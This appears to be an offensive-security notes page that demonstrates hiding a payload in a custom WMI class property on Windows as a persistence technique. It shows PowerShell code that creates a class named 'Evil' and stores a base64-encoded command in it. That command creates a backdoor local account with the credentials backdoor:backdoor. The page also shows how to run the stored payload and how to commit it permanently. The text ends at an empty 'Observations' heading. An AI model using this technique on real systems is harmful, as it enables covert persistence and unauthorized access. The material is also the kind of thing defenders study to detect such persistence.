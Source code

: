```yaml
---
description: >-
  Exploring WMI as a data storage for persistence by leveraging WMI classes and
  their properties.
---
```


# WMI Data Storage

## Execution

Creating a new WMI class with a property `EvilProperty` that will later store the payload to be executed:

```csharp
$evilClass = New-Object management.managementclass('root\cimv2',$null,$null)
$evilClass.Name = "Evil"
$evilClass.Properties.Add('EvilProperty','Tis notin good sir')
$evilClass.Put()

Path          : \\.\root\cimv2:Evil
RelativePath  : Evil
Server        : .
NamespacePath : root\cimv2
ClassName     : Evil
IsClass       : True
IsInstance    : False
IsSingleton   : False
```

We can see the `Evil` class' properties:

```csharp
([wmiclass] 'Evil').Properties

Name       : EvilProperty
Value      : Tis notin good sir
Type       : String
IsLocal    : True
IsArray    : False
Origin     : Evil
Qualifiers : {CIMTYPE}
```

Checking WMI explorer shows the new `Evil` class has been created under the root\cimv2 namepace - note the `EvilProperty` can also be seen:

![](../../.gitbook/assets/wmi-data-storage-newclass.png)

### Storing Payload

For storing the payload inside the EvilPropertty, let's create a powershell base64 encoded command to add a backdoor user with credentials `backdoor:backdoor`:

```csharp
$command = "cmd '/c net user add backdoor backdoor /add'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

# $encodedCommand = YwBtAGQAIAAvAGMAIAAnAG4AZQB0ACAAdQBzAGUAcgAgAGIAYQBjAGsAZABvAG8AcgAgAGIAYQBjAGsAZABvAG8AcgAgAC8AYQBkAGQAJwA=
```

Update the `EvilProperty` attribute to now store the `$encodedCommand`:

```csharp
$evilClass.Properties.Add('EvilProperty', $encodedCommand)
```

Below is the same as above, just in screenshots:

![](../../.gitbook/assets/wim-setting-payload.png)

### Real Execution

```csharp
powershell.exe -enc $evilClass.Properties['EvilProperty'].Value
```

Executing the payload stored in the property of a WMI class's property - note that the backdoor user has been successfully added:

![](../../.gitbook/assets/wmi-payload-executed.png)

If we commit the $evilClass with its .Put\(\) method, our payload will get stored permanently in the WMI Class. Note how a new "Evil" class' properties show the payload we have commited:

![](../../.gitbook/assets/wmi-payload-commited.png)

## Observations

